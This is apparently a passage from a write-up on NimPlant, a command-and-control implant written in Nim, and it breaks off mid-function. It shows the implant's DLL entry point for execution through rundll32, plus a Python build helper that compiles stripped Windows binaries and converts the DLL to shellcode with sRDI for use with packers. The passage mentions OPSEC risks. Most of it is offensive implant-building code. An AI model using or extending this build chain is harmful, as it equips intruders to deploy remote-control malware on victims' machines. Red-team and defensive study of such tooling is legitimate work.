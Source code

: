 The last component of Nimplant is a wrapper script that helps users with compiling the appropriate binaries (after correctly configuring the shared `config.toml` file), and setting up the C2 server. It supports a variety of compilation options, including `.exe`, `.dll`, and `.bin`. The first two are supported natively by Nim, and are implemented through a compile-time flag in the main Nim function, as follows.

```python
when defined exportDll:
		# Manually define the NimMain() function for garbage collection (thanks OffensiveNim)
    proc NimMain() {.cdecl, importc.}

		# Define an exported function that can be used to trigger the DLL
		# In this example, one would run 'rundll32 .\file.dll,Connect' to execute
    proc Connect(hinstDLL: HINSTANCE, fdwReason: DWORD, lpvReserved: LPVOID) : bool {.stdcall, exportc, dynlib.} =
        NimMain()
        runNp()
        return true

else:
		# Structure the binary as a regular executable
    when isMainModule:
        runNp()
```

The compilation helper function basically just constructs the Nim compilation command, accounting for any compile-time and cross-compilation flags that may be needed. If position-independent shellcode is requested as an output format (useful when using other shellcode packers, like Nimpackt 😏), the `ConvertToShellcode` function from the excellent [ShellcodeRDI.py](https://github.com/monoxgas/sRDI/blob/master/Python/ShellcodeRDI.py) is used to convert a freshly generated Nim DLL file to shellcode. Though this is a pretty well-documented technique by now that brings some obvious OPSEC risks, it seems to work quite well in the situations that it's needed. The compilation helper function looks like this.

```bash
def compileNim(type):
    if (type == "exe" or type == "dll"):
				# Define base compilation command
        compileCommand = "nim c --hints:off --warnings:off -d:release -d:strip --opt:size --passc=-flto --passl=-flto --app:gui -o:client/bin/"

        if type == "dll":
						# Add flags for DLL compilation
						# The '-d:exportDll' flag triggers the 'when defined' statements shown above
            compileCommand = compileCommand + " --app=lib --nomain -d:exportDll"

        if os.name != "nt":
						# Use cross-compilation from Linux using MinGW
            compileCommand = compileCommand + " -d=mingw"

        compileCommand = compileCommand + " client/NimPlant.nim"
        os.system(compileCommand)

    elif (type == "raw"):
				# Generate PIC from Nim DLL using sRDI
        if not os.path.isfile("client/bin/NimPlant.dll"):
            compileNim("dll")

        dll = open("client/bin/NimPlant.dll", "rb").read()
        shellcode = ConvertToShellcode(dll, HashFunctionName('Connect'), flags=0x5)
        with open("client/bin/NimPlant.bin", "wb") as f:
            f.write(shellcode)

    else:
```